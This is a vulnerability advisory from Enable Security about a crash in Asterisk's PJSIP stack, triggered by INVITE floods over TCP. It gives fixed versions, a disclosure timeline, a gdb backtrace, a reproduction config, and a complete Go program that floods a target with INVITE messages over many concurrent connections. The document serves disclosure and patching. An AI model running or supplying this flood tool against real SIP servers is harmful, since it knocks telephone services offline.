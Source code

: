 # Asterisk crashes due to INVITE flood over TCP

- Fixed versions: 13.37.1, 16.14.1, 17.8.1, 18.0.1
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2020-02-asterisk-tcp-invite-crash
- Asterisk Security Advisory: https://downloads.asterisk.org/pub/security/AST-2020-001.html
- Tested vulnerable versions: 17.5.1, 17.6.0
- Timeline:
    - Report date: 2020-08-31
	- Triaged: 2020-09-01
	- Fix provided for testing: 2020-10-29
	- Asterisk release with fix: 2020-11-05
	- Enable Security advisory: 2020-11-06

## Description

When an Asterisk instance is flooded with INVITE messages over TCP, it was observed that after some time Asterisk crashes due to a segmentation fault. The backtrace generated after the crash is:

```
3276        PJ_ASSERT_RETURN((cseq=(pjsip_cseq_hdr*)pjsip_msg_find_hdr(tdata->msg, PJSIP_H_CSEQ, NULL))!=NULL
(gdb) bt
#0  0x00007ffff7df1b80 in pjsip_inv_send_msg (inv=0x7fffc88aa5a8, tdata=0x7fffa706a6d8) at ../src/pjsip-ua/sip_inv.c:3276
#1  0x00007ffff4623c41 in ast_sip_session_send_response (session=0x7fffc88ab9f0, tdata=0x7fffa706a6d8) at res_pjsip_session.c:1917
#2  0x00007ffff4627b6b in new_invite (invite=0x7fff94eccb60) at res_pjsip_session.c:3253
#3  0x00007ffff462815b in handle_new_invite_request (rdata=0x7fffa61ec608) at res_pjsip_session.c:3382
#4  0x00007ffff462833d in session_on_rx_request (rdata=0x7fffa61ec608) at res_pjsip_session.c:3446
#5  0x00007ffff7e190ec in pjsip_endpt_process_rx_data (endpt=0x5555559c9d18, rdata=0x7fffa61ec608, p=0x7ffff47c66a0 <param>, p_handled=0x7fff94eccc6c) at ../src/pjsip/sip_endpoint.c:930
#6  0x00007ffff47922a1 in distribute (data=0x7fffa61ec608) at res_pjsip/pjsip_distributor.c:955
#7  0x000055555574c7e1 in ast_taskprocessor_execute (tps=0x555555bb5a80) at taskprocessor.c:1237
#8  0x0000555555756dc7 in execute_tasks (data=0x555555bb5a80) at threadpool.c:1354
#9  0x000055555574c7e1 in ast_taskprocessor_execute (tps=0x5555559c8040) at taskprocessor.c:1237
#10 0x0000555555754698 in threadpool_execute (pool=0x5555559c6070) at threadpool.c:367
#11 0x000055555575655d in worker_active (worker=0x7fff98003e50) at threadpool.c:1137
#12 0x00005555557562bb in worker_start (arg=0x7fff98003e50) at threadpool.c:1056
#13 0x00005555557604ad in dummy_start (data=0x7fffa41fb6e0) at utils.c:1249
#14 0x00007ffff764e609 in start_thread (arg=<optimized out>) at pthread_create.c:477
#15 0x00007ffff728b103 in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
```

## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when SIP over TCP is in use.

## How to reproduce the issue

The following `pjsip.conf` configuration file was used to facilitate the reproduction of this issue:

```
[global]
debug=yes

[transport-tcp]
type = transport
protocol = tcp
bind = 0.0.0.0

[anonymous]
type = endpoint
context = anon
allow = all
```

The following code in Go can be used to reproduce this issue:

```go
package main

import (
	"bytes"
	"flag"
	"fmt"
	"math/rand"
	"net"
	"strconv"
	"strings"
	"time"
)

const charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

func init() {
	rand.Seed(time.Now().UnixNano())
}

func randstr(length int) string {
	b := make([]byte, length)
	for i := range b {
		b[i] = charset[rand.Intn(len(charset))]
	}
	return string(b)
}

type loop struct {
	host   string
	port   int
	conn   net.Conn
	invite []byte
	cseq   int
}

func (l *loop) start() {
	sdp := "v=0\r\n"
	sdp += "o=- 1598350717 1598350717 IN IP4 192.168.1.112\r\n"
	sdp += "s=-\r\n"
	sdp += "c=IN IP4 192.168.1.112\r\n"
	sdp += "t=0 0\r\n"
	sdp += "m=audio 9999 RTP/AVP 0\r\n"
	sdp += "a=rtpmap:0 PCMU/8000/1\r\n"
	sdp += "a=sendrecv\r\n"

	invite := "INVITE sip:5cb49ced@127.0.0.1:5060 SIP/2.0\r\n"
	invite += "Via: SIP/2.0/UDP 192.168.1.112:44896;rport;branch=z9hG4bK-_BRANCH_\r\n"
	invite += "Max-Forwards: 70\r\n"
	invite += "From: <sip:5cb49ced@127.0.0.1:5060>;tag=2k309f\r\n"
	invite += "To: <sip:5cb49ced@127.0.0.1:5060>\r\n"
	invite += "Call-ID: 2345908ux\r\n"
	invite += "CSeq: _CSEQ_ INVITE\r\n"
	invite += "Contact: <sip:5cb49ced@192.168.1.112:44896;transport=udp>\r\n"
	invite += fmt.Sprintf("Content-Length: %d\r\n", len(sdp))
	invite += "Content-Type: application/sdp\r\n"
	invite += "\r\n"
	invite += sdp

	l.invite = []byte(invite)

	var err error
	l.conn, err = net.DialTimeout("tcp4", fmt.Sprintf("%s:%d", l.host, l.port), 5*time.Second)
	if err != nil {
		fmt.Println(err.Error())
		time.Sleep(10 * time.Millisecond)
		go l.start()
		return
	}

	if l.conn != nil {
		l.run()
	} else {
		time.Sleep(10 * time.Millisecond)
		go l.start()
	}
}

func (l *loop) run() {
	if err := l.conn.SetWriteDeadline(time.Now().Add(10 * time.Millisecond)); err != nil {
		if strings.Contains(err.Error(), "use of closed network connection") {
			l.start()
		}

	}

	var err error
	for {
		l.cseq++
		inv := l.invite
		inv = bytes.ReplaceAll(inv, []byte("_BRANCH_"), []byte(randstr(8)))
		inv = bytes.ReplaceAll(inv, []byte("_CSEQ_"), []byte(strconv.Itoa(l.cseq)))

		if _, err = l.conn.Write(inv); err != nil {
			go l.start()
			return
		}
	}
}

func main() {
	var port = flag.Int("p", 5060, "Port")
	var host = flag.String("h", "127.0.0.1", "Host")
	flag.Parse()

	for i := 0; i < 100; i++ {
		go func() {
			l := loop{
				host: *host,
				port: *port,
			}
			l.start()
		}()
	}
	select {}
}
```

## Solution and recommendations

Apply the patch provided by Asterisk or upgrade to a fixed version.

Enable Security would like to thank Kevin Harwell, Joshua C. Colp and the staff at Asterisk for the very quick response and fixing this security issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

